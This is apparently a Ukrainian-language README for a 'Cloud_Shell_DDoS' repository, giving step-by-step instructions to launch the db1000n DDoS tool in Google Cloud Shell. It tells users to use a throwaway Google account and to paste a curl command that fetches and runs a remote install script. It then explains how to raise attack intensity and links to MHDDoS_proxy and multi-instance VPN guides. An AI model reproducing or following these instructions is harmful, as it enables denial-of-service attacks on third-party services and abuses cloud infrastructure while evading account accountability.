 #   Все буде Україна! 💙💛

**Привіт друзі!**   

***Не використовуйте ваш персональний аккаунт з яким ви працюєте.***  
Інструкція  [як створити новий обліковий запис Google](https://support.google.com/accounts/answer/27441?hl=uk)

**☁️ Cloud Shell** зараз працє в ***ефемерному режимі***. Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною **після закінчення даного сеансу**.

Якщо з'єднання перервано не підключайтесь повторно бо вийдете з ***ефемерного режиму***, а **завантажтесь знову**, натиснувши кнопку розташовану нижче

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://console.cloud.google.com/cloudshell/editor?cloudshell=true&shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

## Давайте запустимо «Death by 1000 needles» db1000n. 
З початку скопіюйте команду розташовану нижче та натисніть клавішу [ENTER] 👇
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```
### Чудово, процес пішов!
Якщо все працює без ***роз'єднань***, можна підвищити потужність. Для цього зупиніть процес натиснувши Ctrl+C, та запустіть команду зі збілшеним навантаженням розташовану нижче 👇
```bash
./db1000n --scale 0.7
```
або ще з більшим навантаженням 👇
```bash
./db1000n
```
#### Для перевірки навантаження на процесор використаємо команду htop
Для цього додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та запустіть наступну команду 👇
```bash
htop -F ./db
```
##### ***Пропоную для ознайомлення:***
* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://console.cloud.google.com/cloudshell/editor?cloudshell=true&shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)
* Інструкція для початківців 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* Інструкція для більш досвідчених 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)

